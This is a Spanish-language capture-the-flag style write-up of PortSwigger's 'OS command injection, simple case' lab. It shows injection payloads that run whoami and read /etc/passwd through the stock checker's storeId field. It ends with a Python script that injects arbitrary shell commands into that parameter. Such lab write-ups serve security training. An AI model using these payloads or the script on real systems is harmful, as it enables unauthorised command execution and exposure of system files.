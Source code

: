 ```yaml
---
title: "01 OS command injection, simple case"
collection: publications
category: portswigger
permalink: publications/Command Injection/01_OS command injection, simple case
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el comprobador de existencias de productos. La aplicación ejecuta un comando shell que contiene los ID de producto y tienda proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'OS command injection, simple case'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-1/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-1/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, ejecutamos el comando whoami para determinar el nombre del usuario actual.

## Analisis

Como la descripcion del problema nos indica, es vulnerableal comprobador de existencias del producto. Vamos a analizar esta entrada para realizar la vulneración.

![Conf1]({{site.url}}/images/Command Injection/command-lab-1/conf1.png)

Para resolver el laboratorio debemos ejecutar el whoami y debemos realizar el url encode con `Ctrl + u` y vemos que obtenemos el usuario.

```python
& whoami #
```

![Conf2]({{site.url}}/images/Command Injection/command-lab-1/conf2.png)

## Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-1/aprobado.png)

## Obtenemos el Passwd

Para ver que tan peligroso es hacer este tipo de ataque, vemos que puedo ejecutar comandos del sistema.

```python
& cat /etc/passwd #
```

![Conf3]({{site.url}}/images/Command Injection/command-lab-1/conf3.png)

# Codigo Python

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def run_command(url, command):
    stock_path = '/product/stock'
    command_injection = '1 & ' + command
    params = {'productId': '1', 'storeId': command_injection}
    r = requests.post(url + stock_path, data=params, verify=False, proxies=proxies)
    if (len(r.text) > 3):
        print("(+) Command injection successful!")
        print("(+) Output of command: " + r.text)
    else:
        print("(-) Command injection failed.")

def main():
    if len(sys.argv) != 3:
        print("(+) Usage: %s <url> <command>" % sys.argv[0])
        print("(+) Example: %s www.example.com whoami" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    command = sys.argv[2]
    print("(+) Exploiting command injection...")
    run_command(url, command)

if __name__ == "__main__":
    main()
```